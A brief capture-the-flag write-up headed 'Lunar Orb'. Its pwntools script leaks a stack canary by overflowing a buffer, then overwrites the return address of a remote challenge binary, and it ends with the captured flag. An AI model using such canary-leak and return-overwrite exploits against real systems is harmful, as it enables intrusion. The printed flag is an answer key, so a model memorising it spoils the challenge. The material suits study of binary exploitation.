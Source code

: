 # Lunar Orb

## Approach

`\x00` will cut off the string, so we need to skip the first byte while leaking the canary, therefore the length of padding is `0x59`.

```python
from pwn import *

p = remote("94.237.53.203", 58633)

p.recvuntil("\n\n> ")

"""
[buf..... ........  ........ ........
    ........ ........  ........ ........]
[v3______ ________  ________ ________
    ________ ________  ________ ________
    ________ ________  ________ ________
    ________ ________  __Q u a  r k · Q
    u a r k  · \n____  ________ ________
    ________ ________][00xxxxxx xxxxxxxx]  <-- canary
[old_rbp. ........][ret_addr ........]
"""

payload = b"A" * 0x59 + b"Quack Quack "  # read(0, buf, 0x66uLL);
p.sendline(payload)

resp = p.recvuntil("\n\n> ")
leaked = resp.split(b"Quack Quack ")[1].split(b", ready to fight")[0]
print("leaked:", leaked.hex())

canary = b"\00" + leaked[:7]
old_rbp = p64(0)
payload = b"A" * 0x58 + canary + old_rbp + b"\x7f\x13"  # read(0, v3, 0x6Aull);
p.sendline(payload)

print(p.recv())

# HTB{~c4n4ry_g035_qu4ck_qu4ck~_c4a84b060d972046d5c28b5a704c9185}
```
